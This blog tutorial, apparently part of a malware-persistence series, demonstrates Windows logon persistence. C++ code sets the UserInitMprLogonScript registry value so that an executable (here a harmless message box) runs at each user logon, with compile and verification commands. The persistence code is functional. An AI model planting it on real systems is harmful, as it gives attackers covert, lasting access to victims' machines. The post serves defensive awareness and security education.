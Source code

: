 ```yaml
---
title:  "Malware development: persistence - part 20. UserInitMprLogonScript (Logon Script). Simple C++ example."
date:   2022-12-09 03:00:00 +0300
header:
  teaser: "/assets/images/82/2022-12-11_18-11.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/82/2022-12-11_18-11.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via `UserInitMprLogonScript` value.     

### UserInitMprLogonScript

Windows enables the execution of logon scripts whenever a user or group of users logs into a system. Adding a script's path to the `HKCU\Environment\UserInitMprLogonScript` Registry key accomplishes this. So, to establish persistence, hackers may utilize Windows logon scripts automatically executed upon logon initialization.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple. Just set `UserInitMprLogonScript` key value under `HKCU\Environment` to the full path of our "malware" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.     

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_17-57.png){:class="img-responsive"}    


Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-54.png){:class="img-responsive"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](/assets/images/82/2022-12-11_18-00.png){:class="img-responsive"}    

As you can see, our "malware" works perfectly.    

At the next step, let's go to compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-55.png){:class="img-responsive"}    

And run it at the attacker's machine:    

```powershell
.\pers.exe
```

Then, check our Registry key values again:    

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_18-06.png){:class="img-responsive"}    

So, as you can see, the key (`UserInitMprLogonScript`) value is set.    

That's all. Try to logout and login:     

![pers](/assets/images/82/2022-12-11_18-07.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-07_1.png){:class="img-responsive"}    

And after a few milliseconds, our "malware", `meow-meow` popped up:     

![pers](/assets/images/82/2022-12-11_18-08.png){:class="img-responsive"}    

Then, if we open Process Hacker and check `hack.exe` properties:     

![pers](/assets/images/82/2022-12-11_18-09.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-10.png){:class="img-responsive"}    

we see that the parent process is "non-existent" process.    

If you have studied the windows internals at least a little, you know that exists processes which have "non-existent" process as parent. For example, Windows Explorer - `explorer.exe`. Parent process is `userinit.exe` or `winlogon.exe`, but can be anything `.exe` using `explorer.exe`. Parent will show as `<Non-existent Process>` since `userinit.exe` terminates itself. Another example is Windows Logon - `winlogon.exe`. Parent is "does not exist" since `smss.exe` exits.      

If we check `hack.exe` properties via [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), we can see "Autostart Location" value:    

![pers](/assets/images/82/2022-12-11_20-05.png){:class="img-responsive"}    

Everything is worked perfectly! =^..^=

This persistence trick is used by [APT28](https://attack.mitre.org/groups/G0007) group and software like [Attor](https://attack.mitre.org/software/S0438) and [Zebrocy](https://attack.mitre.org/software/S0438) at the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[source code in github](https://github.com/cocomelonc/2022-12-09-malware-pers-20)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
